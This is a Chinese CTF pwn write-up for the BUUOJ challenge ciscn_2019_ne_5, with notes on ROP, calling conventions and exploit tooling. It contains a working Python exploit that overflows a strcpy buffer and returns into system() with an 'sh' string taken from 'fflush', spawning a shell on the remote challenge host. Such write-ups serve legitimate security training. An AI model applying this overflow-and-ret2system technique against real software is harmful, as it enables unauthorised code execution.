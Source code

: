 # CTF-PWN-通过找到样本中的sh字样去rettext

**来源**：https://buuoj.cn/challenges

**内容**：无

**附件**：

**答案**：`PWN题是动态flag`



## 总体思路

> 发现有四个子函数，其中Print函数自带system
>
> 按其流程步进，发现输入的值将会通过strcpy进入到dest中
>
> 直接按rettext做即可

## 详细步骤

- 使用 pip install sgtlibc 安装pwn解题框架
- 查看文件信息
  - ![image-20220607222725703](https://raw.githubusercontent.com/serfend/res.image.reference/main/image-20220607222725703.png)




- 输入`administrator`进入菜单

- 注意样本中没有binsh字符串，但是有 `fflush`这样包含 sh字符可以用

- 其`AddLog`方法可以往src里面写128位内容，并通过`GetFlag`方法去溢出

  - GetFlag中的长度是4+60+8，加上4位的fake-ebp
  - 构造payload b'a' * (4+60+8) + p32(0xdeadbeef)
  - 32位系统，输入返回地址后+ebp+参数：p32(system_addr) + p32(0xdeadbeef) + p32(str_sh_addr)

- ```python
  import sgtlibc
  from sgtlibc.gamebox import *
  import sgtlibc.ROPgadgets
  import os
  
  set_config(GameBoxConfig(
      is_local=True,
      file='./ciscn_2019_ne_5',
      remote='node4.buuoj.cn:25607',
  ))
  s = sgtlibc.Searcher()
  # load target and show its checksec
  elf = sgtlibc.ROPgadgets.ELF(client.tube_file)
  pops = elf.get_rop()
  
  sla(b'password:', b'administrator')
  
  str_menu = b'0.Exit\n:'
  sla(str_menu, b'1')
  system_addr = 0x080484D0  # print方法里面调用了
  str_sh_addr = 0x80482ea  # fflush的第4字节
  payload = b'a' * (4+60+8) + p32(0xdeadbeef)
  payload += p32(system_addr) + p32(0xdeadbeef) + p32(str_sh_addr)
  sla(b'info:', payload)
  sla('Exit\n:', '4')
  interactive()
  ```

- 

## 参考文档

- 常见知识点

  - 汇编

    `leave` equal `mov esp,ebp; pop ebp;`

    `ret` equal `pop eip`

  - 函数参数

    - x86函数传参：直接从栈上读，且参数在返回地址上方

      **栈的执行顺序** ebp+(func1+f1\_返回+f1_args)+(func2+f2\_返回+f2_args)...

    - x64函数传参：按 rdi, rsi, rdx, rcx, r8, r9顺序读，后续的从栈上读

      故x64需要调用ROP实现pop将参数从栈中传入寄存器

      内存地址不能大于 0x00007FFFFFFFFFFF，**6 个字节长度**，否则会抛出异常。

- 常用工具

  - pwntools逆向python库
    - [工具的基本使用方法](https://zhuanlan.zhihu.com/p/83373740)，注意安装要使用`pip install pwntools`
    - [官方文档](http://docs.pwntools.com/en/latest/)
    - [官方使用教程](https://github.com/Gallopsled/pwntools-tutorial#readme)
  - Kali
    - checksec：检查样本的基本信息也可以是通过设置 pwntool.context.log_level = 'debug'得到
    - ROPgadget：检查文件中可以利用的`gadget`或`rop-chain`
      - 注意在`python3`版本中，生成的chain需要在所有的字符串前面加上`b`表示十六进制值，否则会出现`str`不能合并`bytes`的报错
    - gdb：程序动态调试工具，也可以直接使用[ida的远程调试功能](https://blog.csdn.net/m0_37157335/article/details/124091097)
  - libc_searcher：用于retlibc题时候查询其libc版本
    - 在线web查询 [推荐的查询器](https://libc.rip/) [稍菜一点的查询器](https://libc.blukat.me/)
    - 离线python `pip install sgtlibcsearcher` ，使用 sgtlibcsearcher ./binary_file func_name:addr+func2_name:addr... --dump binsh 
    - docker部署离线外部查询环境 `docker pull libcyber/srpnode `注意需要更新

- 教程
  - [2019 北航 CTF Pwn入门培训课程（一）](https://www.bilibili.com/video/BV1JV411m7PC?p=1)
    - 基础的rop使用方法
  - [2019 北航 CTF Pwn入门培训课程（二）](https://www.bilibili.com/video/BV1JV411m7PC?p=2)
    - 为什么main的返回地址被替换为`system_addr`后 a=system_ret ;b=p	aram_1
      - ret2libc使用pil节区中的`system`和`/bin/sh`
      - 如果没有的话就看其他函数的地址以查到libc版本，以及其各值的地址
    - 如果是静态编译则使用int80调用rop链
      - ROPgadget
        - 通过`ROPgadget --binary rop --ropchain`获取可以直接使用的rop链
        - 通过`ROPgadget --binary rop --only "pop|ret"`获取可以存值的地方
  - [2019 北航 CTF Pwn入门培训课程（三）](https://www.bilibili.com/video/BV1JV411m7PC?p=3)
    - 待解析
  - [2019 北航 CTF Pwn入门培训课程（四）](https://www.bilibili.com/video/BV1JV411m7PC?p=4)
    - 待解析

- 常见知识点
  - [[CTF pwn]傻傻分不清的execve、int80、syscall、system及shellcode](https://blog.csdn.net/weixin_43363675/article/details/117944212)
  - [C 运算符重载](https://blog.csdn.net/king13059595870/article/details/102647033)
